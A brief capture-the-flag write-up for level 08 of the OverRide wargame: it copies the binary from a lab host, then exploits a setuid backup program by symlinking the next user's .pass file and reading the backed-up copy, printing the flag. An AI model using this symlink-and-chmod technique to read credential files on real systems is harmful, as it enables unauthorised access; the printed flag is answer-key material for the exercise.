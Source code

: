 # level 08

## get_binary

```shell
scp -P 4242 level08@192.168.0.0:/home/users/level08/level08 level08.bin
```

## Exploit

```shell
level08@OverRide:~$ chmod 777 .
level08@OverRide:~$ ln -s /home/users/level09/.pass flag
level08@OverRide:~$ ./level08 flag
level08@OverRide:~$ cat backups/flag 
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```

